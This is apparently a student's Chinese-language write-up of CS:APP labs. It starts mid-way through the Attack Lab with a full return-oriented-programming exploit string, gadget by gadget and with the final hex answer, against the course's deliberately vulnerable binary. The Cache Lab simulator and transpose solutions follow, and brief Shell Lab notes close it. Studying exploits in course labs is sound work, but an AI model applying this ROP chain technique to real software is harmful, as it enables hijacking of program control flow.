注意到最后的移动过程是我们熟悉的（同 phase4），而为了避免栈分配时字符串值被更改，字符串应该放在最后

这样我们就得到了答案的最后几行：

```
a2 19 40 00 00 00 00 00     # movq
fa 18 40 00 00 00 00 00     # call touch3
35 39 62 39 39 37 66 61 00  # string
```

前面的寄存器移动过程凑配即可，这里略去具体凑配过程（比较重复）

```
06 1a 40 00 00 00 00 00     # rsp 给 rax
a2 19 40 00 00 00 00 00     # rax 给 rdi
83 13 40 00 00 00 00 00     # pop 给 rsi
30 00 00 00 00 00 00 00     # offset 值
d6 19 40 00 00 00 00 00     # 调用加法
```

最后答案：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
83 13 40 00 00 00 00 00
30 00 00 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
```

通过：


## Cache Lab

### Part A

此部分需要实现一个缓存的模拟器，先放上最后通过的结果：


代码文件具体见附件，这里只梳理整体思路

#### LRU 缓存

实现在了另外一个文件 `csim_lru.h` 中

基本原理是双向链表加上哈希表，以便实现 $O(1)$ 的查询及增加操作，具体算法就不赘述了

不过其实测试集 E 都比较小，就性能而言选用该数据结构意义不是特别大，而由于较多的内存分配操作，可能性能不如遍历数组读取

但封装 LRU Cache 的好处还是存在的：便于简化代码结构， `csim.c` 仅 70 余行

#### 命令行参数读取

调用库函数 `getopt` 即可

```cpp
int read_opt(int argc, char** argv) {
    int op;
    while ((op = getopt(argc, argv, "hvs:E:b:t:")) != -1) {
        switch (op) {
            case 'v':
                break;
            case 's':
                s = atoi(optarg);
                break;
            case 'E':
                E = atoi(optarg);
                break;
            case 'b':
                b = atoi(optarg);
                break;
            case 't':
                trace_file_path = optarg;
                break;
            default:
                return 0;
        }
    }
    return 1;
}
```

这里图省事就没写 `-h` 和 `-v` 选项了

#### 文件读取

```cpp
FILE* fp;
fp = fopen(trace_file_path, "r");

char oper[256];
long address;
int size;
while (fscanf(fp, "%s %lx,%d", oper, &address, &size) == 3) {
    if (oper[0] == 'I')
        continue;

    int group_idx = (address >> b) & ((1 << s) - 1);
    int tag = (int)(address >> (b + s));

    findCache(tag, caches[group_idx]);
    if (oper[0] == 'M')
        findCache(tag, caches[group_idx]);
}
```

直接使用 `fscanf` 读取每一行，掩码读取组索引和标记即可

#### 访问 Cache

实际上缓存模拟器核心的就是这一点，因为该模拟器实际并不关心数据具体是什么，所以 `L` 和 `S` 都只是更新一下缓存里的某一块的访问时间，而 `M` 只要重复两次即可

```cpp
void findCache(int tag, LRUCache* cache) {
    if (lRUCacheGet(cache, tag)) {
        hit++;
        return;
    }

    miss++;
    if (!lRUCachePut(cache, tag)) {
        eviction++;
    }
}
```

具体逻辑也很简单，如果缓存命中，增加 `hit`，否则相当于需要把数据加载到缓存内，则增加 `miss`，并根据是否发生了驱逐判断 `eviction` 是否需要增加

### Part B

本部分是利用缓存命中的原理优化矩阵转置算法

实际上有以下测试点：

- 32 x 32，满分要求： miss 次数小于 300
- 64 x 64，满分要求： miss 次数小于 1300
- 61 x 67，满分要求： miss 次数小于 2000。

#### case1

该 case 考虑 32 x 32

首先对实验参数分析：

`tracegen.c` 内：

```cpp
static int A[256][256];
static int B[256][256];
```

$offset = ( 2^8 )^2\times 4=2^{18} $

相当于两个数组 "对齐" ，因此 A[0] 和 B[0] 同组，以此类推

而 $s=5, E=1, b=5$

即一次可以载入 $2^5/4=8$ 个 int

不难想到 8 \* 8 分块：

```cpp
void transpose_submit(int M, int N, int A[N][M], int B[M][N]) {
    for (int i = 0; i < N; i += 8) {
        for (int j = 0; j < M; j += 8) {
            for (int k = i; k < i + 8; k++) {
                for (int s = j; s < j + 8; s++) {
                    B[s][k] = A[k][s];
                }
            }
        }
    }
}
```

除了含有对角线的小 8 \* 8 分块，别的块应该都是不会产生 miss 的

但是还是不能满分，实际测试 344 次 miss

那么哪里可以改进呢？主要还是源于对角线块的 miss 过多，缓存会在 A, B 内容间不断切换。所以可以考虑每次先存下 A 的一行来替换，这样就不会重复载入 A 的一行内容 (相当于利用寄存器做 l1 的高速缓存)

```cpp
for (int i = 0; i < 32; i += 8) {
    for (int j = 0; j < 32; j += 8) {
        for (int k = i; k < i + 8; k++) {
            int a0 = A[k][j];
            int a1 = A[k][j + 1];
            int a2 = A[k][j + 2];
            int a3 = A[k][j + 3];
            int a4 = A[k][j + 4];
            int a5 = A[k][j + 5];
            int a6 = A[k][j + 6];
            int a7 = A[k][j + 7];
            B[j][k] = a0;
            B[j + 1][k] = a1;
            B[j + 2][k] = a2;
            B[j + 3][k] = a3;
            B[j + 4][k] = a4;
            B[j + 5][k] = a5;
            B[j + 6][k] = a6;
            B[j + 7][k] = a7;
        }
    }
}
```

得： 

顺利满分通过这一测试点

#### case2

该 case 考虑 64 x 64

64 x 64 的问题在于每 $32/(64/8)=4$ 行就会产生相同的组索引。所以原先的 8 x 8 分块在内部也会产生 miss

为了达到满分，我们先来计算一下理论的 miss 数最小值（也就是至少需要载入多少次缓存），应该是 $2\times 64 \times 64 / 8 = 1024$

也就是说，除去给对角线特殊块留的容错，应该尽量使每片内存都只被缓存载入一次

还是取 A 和 B 的 $8\times 8$ 分块，这次我们先研究如何解决这个子问题

不妨考虑先取 A 矩阵的上 $8\times 4$ 元素，移到右边：

```
12345678    11115555
12345678--->22226666
12345678--->33337777
12345678    44448888
........    ........
```

这个时候可以认为 A 矩阵上方 $8\times 4$ 元素信息已经读取完毕

此时， A 矩阵可以读取下方 $8\times 4$ 元素了

但是注意这个时候 B 还不能轻举妄动，因为 B 的每一行都应只被缓存载入一次，所以只有在这一行被更新为转置状态后才能将这一行逐出缓存

思考如何解放 B 的第一行：显然需要使用寄存器。用一些寄存器读取 $A[i][0], 4\le i \le 7$，再把 B 的第一行后 4 位数据写入别的寄存器内，此时即可利用这些寄存器，在补全 B 的第一行的同时，不失去 B 原先的数据。把这些数据（恰好应该是转置后第五行的值）再保存到第五行，第五行也就补全了

B 的其他行同理

对每一个 $8\times 8$ 块都使用这个策略即可，代码如下

外层是循环每一块：

```cpp
for (int i = 0; i < 64; i += 8) {
    for (int j = 0; j < 64; j += 8) {
        ... // 内部处理
    }
}
```

接下来对于每一块内部：

```cpp
for (int k = i; k < i + 4; k++) { // 首先移动上 8 * 4
    int a0 = A[k][j];
    int a1 = A[k][j + 1];
    int a2 = A[k][j + 2];
    int a3 = A[k][j + 3];
    int a4 = A[k][j + 4];
    int a5 = A[k][j + 5];
    int a6 = A[k][j + 6];
    int a7 = A[k][j + 7];
    B[j][k] = a0;
    B[j + 1][k] = a1;
    B[j + 2][k] = a2;
    B[j + 3][k] = a3;
    B[j][k + 4] = a4;
    B[j + 1][k + 4] = a5;
    B[j + 2][k + 4] = a6;
    B[j + 3][k + 4] = a7;
}

for (int k = j; k < j + 4; k++) {
    // 逐个从缓冲区驱逐 B 的 0, 1, 2, 3 行
    // 并替换成 4, 5, 6, 7 行
    int a0 = B[k][i + 4];
    int a1 = B[k][i + 5];
    int a2 = B[k][i + 6];
    int a3 = B[k][i + 7];

    int a4 = A[i + 4][k];
    int a5 = A[i + 5][k];
    int a6 = A[i + 6][k];
    int a7 = A[i + 7][k];

    // 替换完后就可以驱逐了
    B[k][i + 4] = a4;
    B[k][i + 5] = a5;
    B[k][i + 6] = a6;
    B[k][i + 7] = a7;

    // 迎来新的行，补全它
    B[k + 4][i] = a0;
    B[k + 4][i + 1] = a1;
    B[k + 4][i + 2] = a2;
    B[k + 4][i + 3] = a3;
    B[k + 4][i + 4] = A[i + 4][k + 4];
    B[k + 4][i + 5] = A[i + 5][k + 4];
    B[k + 4][i + 6] = A[i + 6][k + 4];
    B[k + 4][i + 7] = A[i + 7][k + 4];
}
```

顺利满分通过


#### case3

该 case 考虑 61 x 67

好消息在于行数不是 2 的次幂形式，所以仍然可以 $8*m$ 分块

宏定义一下 `Y_67` 后进行测试：

```cpp
for (int i = 0; i < 61; i += 8) {
    for (int j = 0; j < 67; j += Y_67) {
        if (i + 8 <= N && j + Y_67 <= M) {
            for (int s = j; s < j + Y_67; s++) {
                int a0 = A[i][s];
                int a1 = A[i + 1][s];
                int a2 = A[i + 2][s];
                int a3 = A[i + 3][s];
                int a4 = A[i + 4][s];
                int a5 = A[i + 5][s];
                int a6 = A[i + 6][s];
                int a7 = A[i + 7][s];
                B[s][i] = a0;
                B[s][i + 1] = a1;
                B[s][i + 2] = a2;
                B[s][i + 3] = a3;
                B[s][i + 4] = a4;
                B[s][i + 5] = a5;
                B[s][i + 6] = a6;
                B[s][i + 7] = a7;
            }
        } else {
            for (int k = i; k < i + 8 && k < 61; k++) {
                for (int s = j; s < j + Y_67 && s < 67; s++) {
                    B[s][k] = A[k][s];
                }
            }
        }
    }
}
```

实际测试发现居然 $Y\_67=1$ 时 miss 最少，可能是因为这个时候已经充分利用了读取 B 时候的局部性

于是得到了一个答案：

```cpp
for (int i = 0; i < 61; i += 8) {
    for (int j = 0; j < 67; j++) {
        if (i + 8 <= N && j < M) {
            int a0 = A[i][j];
            int a1 = A[i + 1][j];
            int a2 = A[i + 2][j];
            int a3 = A[i + 3][j];
            int a4 = A[i + 4][j];
            int a5 = A[i + 5][j];
            int a6 = A[i + 6][j];
            int a7 = A[i + 7][j];
            B[j][i] = a0;
            B[j][i + 1] = a1;
            B[j][i + 2] = a2;
            B[j][i + 3] = a3;
            B[j][i + 4] = a4;
            B[j][i + 5] = a5;
            B[j][i + 6] = a6;
            B[j][i + 7] = a7;
        } else {
            for (int k = i; k < i + 8 && k < 61; k++) {
                B[j][k] = A[k][j];
            }
        }
    }
}
```

满分通过：


Cache Lab 总结果：


总得分 $53/53$

## Shell Lab

本次实验的要求是实现一个支持任务控制的 Unix shell 程序

程序的框架已经给出，只需要补充一些功能性的函数

由于整体是一个编程性质的实验，所以这里只在贴上最后结果后，讲一些实验值得注意的细节

### 评测

可能由于每次运行的 pid 都有所不同，并且也无法保证 `/bin/ps` 行为相同，本实验没有给出一键测试 shell 正确性的程序

但对于每个评测点，都给出了 `tsh` 和 `tshref` 生成运行结果的程序

所以只要批量生成结果后手动比较即可

`tshref` 的结果已经给出，在 `tshref.out` 文件中，下面我们写一个脚本批量生成 `tsh` 的运行结果 (fish 脚本，语法与 posix 有所不同)


然后手动比较文件

（因为 pid 都在括号内，所以首先用正则表达式把 pid 统一替换成 10000）


随后比较：

## Malloc Lab

## Proxy Lab
